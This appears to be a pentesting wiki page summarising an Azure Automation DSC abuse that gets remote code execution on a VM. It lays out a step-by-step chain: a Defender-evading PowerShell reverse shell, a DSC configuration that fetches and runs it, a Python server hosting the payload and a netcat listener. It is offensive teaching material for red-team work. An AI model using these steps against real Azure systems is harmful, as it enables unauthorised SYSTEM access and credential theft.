 # Az - State Configuration RCE

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

**Check the complete post in: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview
The process involves setting up a remote server infrastructure to host a modified Nishang `Invoke-PowerShellTcp.ps1` payload, named `RevPS.ps1`, designed to bypass Windows Defender. The payload is served from a Kali Linux machine with IP `40.84.7.74` using a simple Python HTTP server. The operation is executed through several steps:

#### Step 1 — Create Files
- **Files Required:** Two PowerShell scripts are needed:
  1. `reverse_shell_config.ps1`: A Desired State Configuration (DSC) file that fetches and executes the payload. It is obtainable from [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
  2. `push_reverse_shell_config.ps1`: A script to publish the configuration to the VM, available at [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Customization:** Variables and parameters in these files must be tailored to the user's specific environment, including resource names, file paths, and server/payload identifiers.

#### Step 2 — Zip Configuration File
- The `reverse_shell_config.ps1` is compressed into a `.zip` file, making it ready for transfer to the Azure Storage Account.

```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

#### Step 3 — Set Storage Context & Upload
- The zipped configuration file is uploaded to a predefined Azure Storage container, azure-pentest, using Azure's Set-AzStorageBlobContent cmdlet.

```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

#### Step 4 — Prep Kali Box
- The Kali server downloads the RevPS.ps1 payload from a GitHub repository.

```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

- The script is edited to specify the target Windows VM and port for the reverse shell.

#### Step 5 — Publish Configuration File
- The configuration file is executed, resulting in the reverse-shell script being deployed to the specified location on the Windows VM.

#### Step 6 — Host Payload and Setup Listener
- A Python SimpleHTTPServer is started to host the payload, along with a Netcat listener to capture incoming connections.

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```

- The scheduled task executes the payload, achieving SYSTEM-level privileges.

#### Conclusion

The successful execution of this process opens numerous possibilities for further actions, such as credential dumping or expanding the attack to multiple VMs. The guide encourages continued learning and creativity in the realm of Azure Automation DSC.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
